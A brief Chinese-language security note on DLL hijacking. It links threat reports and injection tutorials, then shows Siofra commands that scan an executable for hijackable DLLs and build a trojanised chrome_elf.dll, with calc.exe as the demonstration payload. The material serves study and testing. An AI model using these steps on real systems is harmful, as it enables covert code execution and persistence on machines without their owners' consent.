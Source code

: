 ### 简介

DLL Hijacking

[【微步在线报告】“海莲花”攻击 - 白利用 0检出](https://m.threatbook.cn/detail/1397?from=groupmessage&isappinstalled=0)

### 方式

7种不同的DLL注入方式 [injectAllTheThings](https://github.com/fdiskyou/injectAllTheThings)

[详细解释文章 - 看雪学院](https://mp.weixin.qq.com/s/mNLxblONujByW16r9tC6yQ)

### 测试


使用[siofra](https://github.com/Cybereason/siofra)检测xx.exe的DLL能否被劫持

```
# 文件扫描模式 对父程序xx.exe进行扫描 枚举它所依赖的dll文件 并检测能否DLL Hijacking
Siofra32.exe --mode file-scan -f "c:\Program Files\xxx\xx.exe" --enum-dependency --dll-hijack
# 如结果
# [!] Module chrome_elf.dll vulnerable at C:\ProgramData\xxx\chrome_elf.dll (real path: Unknown)

# Exploit - 生成存在恶意代码chrome_elf.dll 从而实现dll劫持
Siofra32.exe --mode infect -f chrome_elf(real).dll -o chrome_elf.dll --payload-type process --payload-path C:\Windows\System32\calc.exe
```
